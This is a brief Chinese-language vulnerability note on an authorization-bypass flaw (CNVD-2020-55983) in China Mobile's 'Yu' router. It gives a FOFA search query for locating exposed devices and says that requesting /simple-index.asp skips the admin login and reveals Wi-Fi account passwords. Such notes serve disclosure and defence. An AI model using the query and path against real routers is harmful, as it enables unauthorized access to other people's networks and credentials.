# 中国移动 禹路由 simple-index.asp 越权访问漏洞 CNVD-2020-55983

## 漏洞描述

中国移动 禹路由 simple-index.asp 存在越权访问漏洞，攻击者通过漏洞可以获取账号密码等敏感信息

## 漏洞影响

```
中国移动 禹路由
```

## FOFA

```
title="互联世界 物联未来-登录"
```

## 漏洞复现

登录页面如下

![](./images/202202162253135.png)



访问Url

```plain
/simple-index.asp
```

![](./images/202202162253346.png)

越过管理员验证获取Wifl账号密码等信息